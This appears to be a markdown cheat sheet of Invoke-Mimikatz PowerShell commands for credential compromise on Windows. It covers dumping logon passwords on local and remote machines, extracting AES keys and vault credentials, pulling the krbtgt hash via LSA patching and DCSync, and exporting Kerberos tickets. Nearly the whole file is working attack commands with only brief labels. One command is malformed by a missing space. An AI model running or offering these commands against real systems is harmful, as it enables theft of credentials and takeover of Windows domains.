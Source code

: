 # Credential Compromise
> test

## Mimikatz

Dump credentials on a local machine.
```powershell
Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "exit"'
```

Dump credentials on multiple remote machines.
```powershell
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2") 
```

logon password
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords" "exit"'
```

AES cred
```powershell
Invoke-Mimikatz-Command '"sekurlsa::ekeys"'
```

Credential Vault
```powershell
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```

Execute mimikatz on DC as DA to get krbtgt hash
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' 
```
Use the DCSync feature for getting hash
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /all"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```
Export all ticket
```powershell
Invoke-Mimikatz –Command '"sekurlsa::tickets /export"'
```